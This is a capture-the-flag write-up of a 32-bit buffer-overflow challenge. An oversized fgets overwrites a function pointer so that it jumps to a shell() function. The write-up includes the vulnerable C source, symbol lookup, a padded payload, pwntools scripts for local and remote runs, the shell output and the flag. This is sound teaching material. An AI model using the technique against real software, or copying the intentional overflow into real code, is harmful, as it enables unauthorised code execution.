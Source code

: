# Buffer overflow 3 

## Description

> This time I won't give it to you, you have to get it by yourself

## Write-Up

The given `C` code :

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
     
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
    exit(0);
}
     
void mate() {
    printf("Hey Mate ! How u Doin ?!\n");
    exit(0);
}
     
int main()
{
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    int var;
    void (*func)()=mate;
    char buf[128];
    printf("> ");
    fgets(buf,133,stdin);
    printf("Func adress  : %x\n",func );
    func();
    return 0;
}
```

This time, the things are a little bit different from the [Buffer overflow 2](../Buffer_overflow_2/solution.md) Challenge. This time, instead of injecting `0xdeadbeef` as a value in the `check` variable, we need to overwride the `func` pointer to point to the `shell()` function instead of the `mate()` function :

```c
...
     void (*func)()=mate;
    char buf[128];
    printf("> ");
    fgets(buf,133,stdin);
    printf("Func adress  : %x\n",func );
    func();
...
```

We will use the same approach and scripts as the previous challenge, but instead of `0xdeadbeef`, we will put the `shell()` address in the code instead. To retreive is, we use the `nm` command :

```
└─$ nm chall
080481cc r __abi_tag
0804c038 B __bss_start
0804c038 b completed.0
0804c030 D __data_start
0804c030 W data_start
08049120 t deregister_tm_clones
08049100 T _dl_relocate_static_pie
080491a0 t __do_global_dtors_aux
0804bf04 d __do_global_dtors_aux_fini_array_entry
0804c034 D __dso_handle
0804bf08 d _DYNAMIC
0804c038 D _edata
0804c03c B _end
         U exit@GLIBC_2.0
         U fgets@GLIBC_2.0
08049378 T _fini
0804a000 R _fp_hw
080491d0 t frame_dummy
0804bf00 d __frame_dummy_init_array_entry
0804a1f8 r __FRAME_END__
         U geteuid@GLIBC_2.0
0804c000 d _GLOBAL_OFFSET_TABLE_
         w __gmon_start__
0804a044 r __GNU_EH_FRAME_HDR
08049000 T _init
0804bf04 d __init_array_end
0804bf00 d __init_array_start
0804a004 R _IO_stdin_used
08049370 T __libc_csu_fini
08049310 T __libc_csu_init
         U __libc_start_main@GLIBC_2.0
08049249 T main
0804921b T mate
         U printf@GLIBC_2.0
         U puts@GLIBC_2.0
08049160 t register_tm_clones
         U setbuf@GLIBC_2.0
         U setreuid@GLIBC_2.0
080491d6 T shell
080490c0 T _start
         U stderr@GLIBC_2.0
         U stdin@GLIBC_2.0
         U stdout@GLIBC_2.0
         U system@GLIBC_2.0
0804c038 D __TMC_END__
08049371 T __x86.get_pc_thunk.bp
08049110 T __x86.get_pc_thunk.bx
```

Note that the function address is `0x080491d6` :

```
...
         U setbuf@GLIBC_2.0
         U setreuid@GLIBC_2.0
080491d6 T shell
080490c0 T _start
         U stderr@GLIBC_2.0
...
```

Of course, we need to be careful about the length of the `buf` variable we want to overflow so we create the payload witht the right length (`buf` length this time is `128` chars (bytes)) :

```
└─$ cyclic 128
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
```

So here is our local script :

```py
#! /usr/bin/python3

from pwn import *

HOST = ''
PORT = ''

p = process('./chall')

p.sendline(b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab\xd6\x91\x04\x08')

p.interactive()
```

By executing it, we get :

```
[+] Starting local process './chall': pid 11640
[*] Switching to interactive mode
> Func adress  : 80491d6
$ whoami
rivench
$ ls
chall  chall.c    script_local.py  script.py  solution.md
$ exit
[*] Got EOF while reading in interactive
$ exit
```

As for the remote :

```py
#! /usr/bin/python3

from pwn import *

HOST = 'pwn.challs.ctf.shellmates.club'
PORT = '1403'

p = remote(HOST, PORT)

p.sendline(b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab\xd6\x91\x04\x08')

p.interactive()
```

```
[+] Opening connection to pwn.challs.ctf.shellmates.club on port 1403: Done
[*] Switching to interactive mode
> Func adress  : 80491d6
$ whoami
nobody
$ ls
chall
entrypoint.sh
flag.txt
$ cat flag.txt
shellmates{Ov3r1ting_IP_FTW$$_7327394}
$ exit
```

**Note :** Always try your scripts locally before jumping to the remote, it will help you debug properly your code.

## Flag

shellmates{Ov3r1ting_IP_FTW$$_7327394}